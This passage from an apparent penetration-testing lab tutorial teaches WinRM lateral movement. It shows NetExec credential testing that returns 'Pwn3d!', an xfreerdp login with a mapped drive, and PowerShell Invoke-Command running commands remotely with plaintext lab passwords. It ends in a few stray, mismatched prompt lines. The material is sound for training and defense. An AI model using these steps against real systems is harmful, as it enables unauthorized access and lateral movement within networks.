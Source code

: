 To test credentials against WinRM, we can use [NetExec](https://github.com/Pennyw0rth/NetExec). Let's select the account `frewdy` and the password `Kiosko093` and specify the protocol `winrm`:

```shell
netexec winrm 10.129.229.244 -u frewdy -p Kiosko093
WINRM       10.129.229.244  5985   SRV01            [*] Windows 10 / Server 2019 Build 17763 (name:SRV01) (domain:inlanefreight.local)
WINRM       10.129.229.244  5985   SRV01            [+] inlanefreight.local\frewdy:Kiosko093 (Pwn3d!)

```

**Note:** Users with rights to connect to WinRM will be marked as `(Pwn3d!)` but that doesn't mean the user is member of the Administrators group.

To enumerate WinRM rights, we can use [BloodHound](https://github.com/SpecterOps/BloodHound). However, even if we use BloodHound, it will not query the local group members. The only way to check if an account has the rights to connect over WinRM is through testing. When we compromise an account, it is recommended that we try different ways to perform lateral movement.

## Lateral Movement From Windows

We can use PowerShell to interact with WinRM on Windows. PowerShell has cmdlets such as [Invoke-Command](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7.4) and [Enter-PSSession](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.4) to manage and execute commands on remote systems.

Let's connect via RDP to `SRV01` using Helen's credentials.

```shell
xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux

```

Now, we can explore how to use `Invoke-Command` to execute commands on a remote system. We need to launch a PowerShell session as the account we want to use to interact with the remote computer. In this case, we are using Helen's credentials, as this account is a member of `Remote Management Users` on `SRV02`.

```powershell
PS C:\Tools> Invoke-Command -ComputerName srv02 -ScriptBlock { hostname;whoami }
SRV02
inlanefreight\helen

```

Additionally, we can specify credentials with the `-Credential` parameter:

```powershell
PS C:\Tools> $username = "INLANEFREIGHT\Helen"
PS C:\Tools> $password = "RedRiot88"
PS C:\Tools> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools> Invoke-Command -ComputerName 172.20.0.52 -Credential $credential -ScriptBlock { whoami; hostname }
inlanefreight\helen
SRV02

```


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>